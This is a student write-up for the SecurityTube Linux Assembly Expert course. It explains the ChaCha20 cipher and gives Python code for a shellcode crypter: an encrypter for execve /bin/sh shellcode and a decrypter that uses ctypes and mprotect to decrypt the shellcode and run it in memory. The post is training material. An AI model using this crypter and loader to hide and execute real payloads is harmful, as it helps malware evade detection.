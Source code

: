 # SLAE Exam Blog Posts

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certifiation:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-31074

[All Assignments](../Readme.md)
____

</br>

# Assignment 7
For the seventh assignment I need to solve the following tasks:
* Create a custom crypter like the one show in the "crypters" video 
* Free to use any existing encryption schema
* Can use any programming language


___

</br>

So first I wanted to search for an encryption schema which I can use. I thought that the default AES might be a little bit boring so I searched for other encryption algorithms. Because there are no more requirements we can use any programming language so I chose Python. Then I took a look in the available ciphers from the PyCryptodome library. There I found additional to AES some block ciphers but they are only there because of backward compatibility. So I took a look in the stream cyphers and found ChaCha20 which I've never heard before and it sounds interesting.

## ChaCha20 introduction
I took some time to research ([reference](https://en.wikipedia.org/wiki/Salsa20#ChaCha_variant)) how this cypher works so let me explain it shortly:
First ChaCha20 is a stream cipher so we have to generate a keystream which we can XOR to the plaintext and get the ciphertext like c = m + k (c =cypher, m = plaintext, k = keystream) </br>
So the question in stream ciphers is how to generate the keystream. First there is a 4x4 array with each 32-bit words which which is filled like the following:

|           |           |           |           |
|:-----------:|:-----------:|:-----------:|:-----------:|
| "expa"    |   "nd 3"	|   "2-by"	|   "te k"  |
| Key	    |   Key	    |   Key	    |   Key     |
| Key	    |   Key	    |   Key	    |   Key     |
| Counter	|   Nonce   |	Nonce   |	Nonce   |

In the first row you can see that it's filled with a 128 bit constant. Then you see the 256 bit key which will be used as input for the function. In the last row you see a 32 bit counter for this cipher and a 96 bit nonce.

You can see how the ChaCha20 function works in the roundfunction in the following:
![ChaCha20 Roundfunction](https://upload.wikimedia.org/wikipedia/commons/thumb/9/99/ChaCha_Cipher_Quarter_Round_Function.svg/800px-ChaCha_Cipher_Quarter_Round_Function.svg.png)

So now we have to explain what a,b,c and d is and connect it to the first table.
To every entry in the table there can be defined a position which is defined like the following:

|           |           |           |           |
|:-----------:|:-----------:|:-----------:|:-----------:|
| 0    |   1	|   2	|   3  |
| 4    |   5	|   6	|   7  |
| 8    |   9	|   10	|   11  |
| 12    |   13	|   14	|   15  |

Now we can call the round function from the picture with a,b,c,d with the following positions:

``` c
// Odd round
 QR(0, 4,  8, 12)	// 1st column
 QR(1, 5,  9, 13)	// 2nd column
 QR(2, 6, 10, 14)	// 3rd column
 QR(3, 7, 11, 15)	// 4th column
 // Even round
 QR(0, 5, 10, 15)	// diagonal 1 (main diagonal)
 QR(1, 6, 11, 12)	// diagonal 2
 QR(2, 7,  8, 13)	// diagonal 3
 QR(3, 4,  9, 14)	// diagonal 4
```
We have 20 rounds so these instructions will be called 10 times and in the end it will be combined to the final array which will be our 512 bit keystream

``` c++
#define ROTL(a,b) (((a) << (b)) | ((a) >> (32 - (b))))
#define QR(a, b, c, d) (			\
	a += b,  d ^= a,  d = ROTL(d,16),	\
	c += d,  b ^= c,  b = ROTL(b,12),	\
	a += b,  d ^= a,  d = ROTL(d, 8),	\
	c += d,  b ^= c,  b = ROTL(b, 7))
#define ROUNDS 20
 
void chacha_block(uint32_t out[16], uint32_t const in[16])
{
	int i;
	uint32_t x[16];

	for (i = 0; i < 16; ++i)	
		x[i] = in[i];
	// 10 loops × 2 rounds/loop = 20 rounds
	for (i = 0; i < ROUNDS; i += 2) {
		// Odd round
		QR(x[0], x[4], x[ 8], x[12]); // column 0
		QR(x[1], x[5], x[ 9], x[13]); // column 1
		QR(x[2], x[6], x[10], x[14]); // column 2
		QR(x[3], x[7], x[11], x[15]); // column 3
		// Even round
		QR(x[0], x[5], x[10], x[15]); // diagonal 1 (main diagonal)
		QR(x[1], x[6], x[11], x[12]); // diagonal 2
		QR(x[2], x[7], x[ 8], x[13]); // diagonal 3
		QR(x[3], x[4], x[ 9], x[14]); // diagonal 4
	}
	for (i = 0; i < 16; ++i)
		out[i] = x[i] + in[i];
}
```

Also I found some interesting facts. Because of the simple XOR operations this cypher is really fast on x86 architecture compared to slow and 'complex' AES operations. Also there were proposals to use this cypher in IKE and IPSEC and in Wireguard VPN system this ChaCha20 is also used.

## ChaCha20 cryptor
For the python implementation we can use the pycryptodome library which has also some [example usage.](https://www.pycryptodome.org/en/latest/src/cipher/chacha20.html)

So the encrypter part is realy easy. First define the shellcode. Then we genearte a random key and nonce whith an option to set it hardcoded in the application. After that we see the encryption of the shellcode and then I used a simple formater to format the output in the shellcode style. At the end all the data will be printed to the console.

``` python
#!/usr/bin/python3
from Crypto.Cipher import ChaCha20
from Crypto.Random import get_random_bytes

# setting data
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'

key = get_random_bytes(32)
nonce = get_random_bytes(12)

# manually set key and nonce
#key = bytearray.fromhex("ebfe3a562330ee604a93be7eb164790e6f04c1e59f364b4c25a4c7f5b85a425c")
#nonce = get_random_bytes("33c4baf659808e9174804ae6")

# encrypt
cipher = ChaCha20.new(key=key, nonce = nonce)
encryptedShell = cipher.encrypt(shellcode)

# format in shellcode format
encryptedShellOutput = ''.join(f'\\x{byte:02x}'for byte in encryptedShell)

# print data
print("EncryptedShellcode: " + encryptedShellOutput)
print("Key: " + key.hex())
print("Nonce: " + nonce.hex())
```

We can run it which looks like this:

![Execute Encrypter](images/encrypter.png)


On the decrypter the first part is also quite simple nearly the same as the encrypter. First we specify the encrypted Shellcode and the used key and nonce. After that we decrypt the cypher with the specified key and nonce. Then we just format the decrypted shellcode and print it to the console. For the execution part of the shellcode I had to search a little bit but then I found on [stackoverflow](https://stackoverflow.com/questions/19326409/python-ctype-segmentation-fault) how to execute shellcode in Python 3 from where I copied the code in my script.

``` python
#!/usr/bin/python3
from Crypto.Cipher import ChaCha20
import ctypes

# setting data
encryptedShell = b'\xf9\x60\x94\xb7\x68\xb8\xe8\x8b\xf5\x88\xf7\x52\x8c\xf0\xad\x04\x2b\x6f\x69\x50\x81\x94\xd2\x36\x75'
key = bytearray.fromhex("a2ffacb58c5457e09915b870ca18af0d51414021cabcd2d46565efc2d757fd31")
nonce = bytearray.fromhex("b79267fb237543ca8e797968")

# decrypt
cipher = ChaCha20.new(key=key, nonce=nonce)
decryptedShell = cipher.decrypt(encryptedShell)

# format in shellcode format
decyptedShellOutput = ''.join(f'\\x{byte:02x}'for byte in decryptedShell)

print("The encrypted shellcode is " + decyptedShellOutput + " is now executed")


# Exec Shellcode
shellcode = ctypes.create_string_buffer(decryptedShell)
function = ctypes.cast(shellcode, ctypes.CFUNCTYPE(None))

addr = ctypes.cast(function, ctypes.c_void_p).value
libc = ctypes.CDLL('libc.so.6')
pagesize = libc.getpagesize()
addr_page = (addr // pagesize) * pagesize
for page_start in range(addr_page, addr + len(decryptedShell), pagesize):
    assert libc.mprotect(page_start, pagesize, 0x7) == 0

function()
```

When we execute the decrypter with the encrypted shellcode and the key and nonce which will successfully result in a shell.

![Execute Decrypter](images/decrypter.png)
